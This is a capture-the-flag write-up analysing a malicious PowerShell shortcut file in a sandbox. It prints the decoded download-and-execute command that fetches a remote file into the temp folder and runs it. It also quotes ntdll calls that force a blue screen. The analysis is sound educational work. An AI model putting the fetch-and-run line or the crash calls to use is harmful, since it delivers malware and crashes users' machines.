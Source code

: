 # Russian Roulette

## Description

```
My PowerShell has been acting really weird!! It takes a few seconds to start up, and sometimes it just crashes my computer!?!?! :(
````

## Solved it within top 8 😎
![Solved](solved.png)


## Malware Analysis Procedure

This is a malicious file; use a sandbox environment. I am running Flare VM.

[Flare VM on GitHub](https://github.com/mandiant/flare-vm)


## Default Analysis Steps

When I conduct a malware analysis, I usually check for:

- **Network connections** → Wireshark
- **Memory activities** → DumpIt → Volatility or MemProcFS
- **Processes** → Process Monitor from Sysinternals
- **Disk activity**



***Steps to solve the CTF***

Download the file and extract it in a safe env.



## Initial File Inspection

The first thing I do with the file is to run the command:

file <filename>

```
Windows PowerShell.lnk: MS Windows shortcut, Item id list present, Points to a file or directory, Has Relative path, Has Working directory, Has command line arguments, Archive, ctime=Sat Feb 17 05:44:00 2024, mtime=Thu Oct 03 17:53:00 2024, atime=Sat Feb 17 05:44:00 2024, length=450560, window=hidenormalshowminimized.
```

The file is a LNK (shortcut) file.

Right-click the file and select Properties to view the targets.

This reveals that PowerShell executes a Base64 string, which can be decoded to extract the following command:
```
iwr is.gd/jwr7JD -o $env:TMP/.cmd; & $env:TMP/.cmd
```


## Process Analysis
I can also see in the processes captured with Process Monitor that cmd spawns a PowerShell process, which then runs a Base64 string.

PID: 3660
PPID: 2116
I save the Base64 string to a file and run:
```
Base64.exe -d base64string.txt > stage2.txt
```
After decoding everything, we find that it resembles a PowerShell script with embedded C# code.

We refine the code to make it more readable (see the stage2.txt file in the folder).


## Decryption Process
We observe that decryption takes place, and we want to make the code "safe" by ONLY printing the decrypted output. Remove evrything else that dosnt have to do with the decryption.

How Does the Decryption Process Work?
Three Base64-encoded strings (c, k, and i) were decoded into byte arrays:

```c```: The encrypted text.
```k```: The AES key.
```i```: The Initialization Vector (IV) for AES.

I modify the code to print the decrypted string (see the aesdec.txt file).

Run the code and get the response: flag{REDACTED}

-------------------------------------------------------

## Note + Extra Nerdiness

[Link to additional resources](https://gist.github.com/MerijnHendriks/97f3096a5d779643ba6029d03dd86992)
[Link to additional resources](https://www.pinvoke.net/index.aspx)

If you run the code, you will experience a BSOD (Blue Screen of Death).

Why?
The code utilizes ntdll.dll, which implements basic functions for Windows. It can cause severe issues if mishandled.

```
RtlAdjustPrivilege(19, true, false, out o);
```
The number 19 represents SeShutdownPrivilege (allows the system to restart or shut down services).
```
NtRaiseHardError(0xc0000022, 0, 0, IntPtr.Zero, 6, out r);
```
NtRaiseHardError is a function that can trigger a "serious error," leading to a BSOD to prevent damage to the system.